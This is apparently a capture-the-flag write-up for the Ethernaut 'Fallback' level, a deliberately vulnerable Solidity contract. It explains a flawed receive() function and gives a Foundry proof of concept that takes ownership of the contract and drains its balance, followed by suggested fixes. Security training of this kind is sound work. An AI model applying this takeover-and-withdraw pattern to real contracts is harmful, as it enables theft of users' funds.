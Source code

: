 # Level 1 - Fallback

## Objectives

- claim ownership of the contract
- reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

## Contract Overview

The fallback contract allows users to contribute ether to the contract. The contract is supposed to work as follows:

- `contribute()` function is restricted to payments smaller than `0.001 ether`

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether); // <-- this line over here
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- if a user has contributed more than the owner, he then becomes the owner
  - claiming ownership this way would be very tedious because contributions of the initial owner are set to 1000 ether

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) { // <-- this line over here
      owner = msg.sender; // <-- this line over here
    }
  }
```

- the owner can withdraw all of the funds

```solidity
  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallback_slither.png)

## Finding the weak spots

The fallback contract contains a `receive()` function that at first glance contains flawed logic. That is why if we want to claim ownership of the contract we have to trigger `receive()` function. In order to do this we have to fullfill `require` condition.

```solidity
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

> The receive function is executed on a call to the contract with empty calldata. This is the function that is executed on plain Ether transfers (e.g. via .send() or .transfer()). If no such function exists, but a payable fallback function exists, the fallback function will be called on a plain Ether transfer. If neither a receive Ether nor a payable fallback function is present, the contract cannot receive Ether through regular transactions and throws an exception.
>
> _Reference: https://docs.soliditylang.org/en/v0.8.12/contracts.html#receive-ether-function_

We can send Ether to other contracts by:

- transfer
- send
- call

  | Function   | Amount of Gas Forwarded        | Exception Propagation              |
  | :--------- | :----------------------------- | :--------------------------------- |
  | `send`     | 2300 (not adjustable)          | `false` on failure (returns bool)  |
  | `transfer` | 2300 (not adjustable)          | `throws` on failure (throws error) |
  | `call`     | all remaining gas (adjustable) | `false` on failure (returns bool)  |

  _Reference: https://solidity-by-example.org/sending-ether/_

We will need to use the `call` method so that the contract has enough gas left to change the `owner` state after performing the transfer. Both `send` and `transfer` have a fixed gas stipend which would be insufficient for this purpose.

## Potential attack scenario (hypothesis)

If attacker sends ether directly to the contract via external call, he can become the owner of the contract without the need to contribute more than the owner.

## Plan of the attack

1. Contribute with a small amount of ether to be added to the `contributions` mapping.
2. Trigger the fallback function (`receive()`) to gain ownership of the contract.
3. Confirm the ownership of the contract has changed.
4. Withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/01-Fallback.t.sol))

```solidity
        //Contribute with a small amount of ether to be added to the contributions mapping
        fallbackContract.contribute{value: 1}();
        emit log_named_uint(
            "Attackers's contribution: ",
            fallbackContract.getContribution()
        );

        // Trigger the fallback function (receive()) to gain ownership of the contract.
        (bool success, ) = address(fallbackContract).call{value: 1}("");
        require(success, "call failed");

        // Confirm the ownership of the contract has changed
        emit log_named_address(
            "New owner of the contract: ",
            fallbackContract.owner()
        );

        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(fallbackContract).balance
        );

        // Withdraw all the funds
        fallbackContract.withdraw();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(fallbackContract).balance
        );

        // Test assertion
        assertEq(fallbackContract.owner(), attacker);

        assertEq(address(fallbackContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallback.png)

## Recommendations

1. The first way to mitigate the issue would be to move ownership transfer out of the receive function into separate `transferOwnership()` function which would perform all the necessary checks.
2. Second possible solution is to add additional logic to the receive function to check if the user has enough contributions to become the owner. It could be done like this:

```solidity
receive() external payable {
	require(msg.value > 0 && contributions[msg.sender] > 0);
	contributions[msg.sender] += msg.value;

	if (contributions[msg.sender] > contributions[owner]) {
		owner = msg.sender;
	}
}
```

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/1.-fallback-fallback-function

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

